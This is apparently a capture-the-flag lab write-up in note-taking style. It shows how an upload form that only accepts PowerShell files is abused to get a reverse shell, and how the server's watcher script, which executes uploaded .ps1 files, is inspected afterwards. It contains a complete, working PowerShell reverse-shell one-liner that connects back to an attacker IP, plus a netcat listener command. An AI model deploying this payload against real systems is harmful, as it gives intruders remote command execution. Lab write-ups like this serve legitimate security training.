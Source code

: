 ## Uploading ps1 file
As the web says you only can upload ps1 files, create one file to POST the output of `whoami /groups` from a PowerShell-only upload to a remote listener.

#Attacking_machine 
 1. Crerate a file called `reverse.ps1`.
 2. Open a netcat listener.
```
 nc -lnvp 4444
```

 3. Go to https://www.revshells.com/ and create a ps1 payload. Fiil the IP field with your ATTACKING MACHINE IP and the port with the listener port.

![[Screenshot_2025-10-24_13-39-45.png]]

4. Paste the payload  to `reverse.ps1` file.
```
$LHOST = "10.8.113.198"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

4. Upload the file from the web page.
![[Screenshot_2025-10-23_05-45-56.png]]

#netcat_listener
4. You got a reverse shell.


## Files to review

Run:
```
whoami
dir
```

![[Screenshot_2025-10-30_07-11-19-1.png]]
### File.ps1

1. Look at the content of `File.ps1`.

```
type File.ps1
```

![[Screenshot_2025-10-30_07-13-58.png]]

Here you have the content more clear.


```
$FolderPath = "C:\xampp\htdocs\uploads\"  
$FileDictionary = @{}  
# Populate the initial state of the dictionary with file names and timestamps  
$Files = Get-ChildItem -Path $FolderPath  
foreach ($file in $Files) {  
$FileDictionary[$file.Name] = $file.LastWriteTime  
}  
# Watch for changes in the directory  
while ($true) {  
Start-Sleep -Seconds 1  
# Check for changes in the directory  
$Files = Get-ChildItem -Path $FolderPath  
foreach ($file in $Files) {  
if ($FileDictionary.ContainsKey($file.Name)) {  
# Compare the current timestamp with the stored timestamp  
if ($file.LastWriteTime -ne $FileDictionary[$file.Name]) {  
Write-Host "File $($file.Name) has been modified."  
# Update the dictionary with the new timestamp  
$FileDictionary[$file.Name] = $file.LastWriteTime  
# Check if the file is executable, a PowerShell script, or a pdf document  
$extension = $file.Extension.ToLower()  
if ($extension -eq ".ps1") {  
$scriptPath = "C:\xampp\htdocs\uploads\$($file.Name)"  
try{  
#Invoke-Expression -Command "powershell.exe -ExecutionPolicy Bypass -File $scriptPath"  
Start-Job -ScriptBlock { param($scriptPath) powershell.exe -ExecutionPolicy Bypass -File $scriptPath } -ArgumentList $scriptPath  
}  
catch {  
Write-Host "An exception occurred: $_.Exception.Message"  
}  
#Write-Host "Opening file: $($file.Name)"  
#Start-Process -FilePath $file.FullName  
}  
}  
} else {  
# New file detected  
Write-Host "File $($file.Name) has been added."  
# Add the new file to the dictionary  
$FileDictionary[$file.Name] = $file.LastWriteTime  
# Check if the file is executable, a PowerShell script, or a pdf document  
$extension = $file.Extension.ToLower()  
if ($extension -eq ".ps1") {  
$scriptPath = "C:\xampp\htdocs\uploads\$($file.Name)"  
try{  
#Invoke-Expression -Command "powershell.exe -ExecutionPolicy Bypass -File $scriptPath"  
Start-Job -ScriptBlock { param($scriptPath) powershell.exe -ExecutionPolicy Bypass -File $scriptPath } -ArgumentList $scriptPath  
}  
catch {  
Write-Host "An exception occurred: $_.Exception.Message"  
}  
#Write-Host "Opening file: $($file.Name)"  
#Start-Process -FilePath $file.FullName  
}  
}  
}  
# Check for deleted files  
$deletedFiles = @()  
foreach ($fileName in $FileDictionary.Keys) {  
if (-not (Test-Path -Path (Join-Path $FolderPath $fileName))) {  
Write-Host "File $fileName has been deleted."  
# Add the deleted file to the array for removal  
$deletedFiles += $fileName  
}  
}  
# Remove the deleted files from the dictionary  
foreach ($deletedFile in $deletedFiles) {  
$FileDictionary.Remove($deletedFile)  
}  
}
```

This tells you the VM is running a loop that checks `C:\xampp\htdocs\uploads\` for new PS1s and then runs them via `Start-Job -ScriptBlock { param($scriptPath) powershell.exe -ExecutionPolicy Bypass -File $scriptPath } -ArgumentList $scriptPath` command.

2. Go to `C:\xampp\htdocs\uploads\`.
3. Check the files.
```
cd C:\xampp\htdocs\uploads\
dir
```

![[Screenshot_2025-10-30_07-23-24.png]]

There's a file called `vulnerable.ps1`.

### Vulnerable.ps1

This reverse shell lacks the privileges required to escalate to Administrator, even though it’s running as the username `evader`.

### encodedflag

#netcat_listener 
Run the following commands:

```

cd ..
cd Desktop
```

![[Screenshot_2025-10-24_14-11-30.png]]

There's a file called `encodedflag`.

**Next step:** [[User level flag]]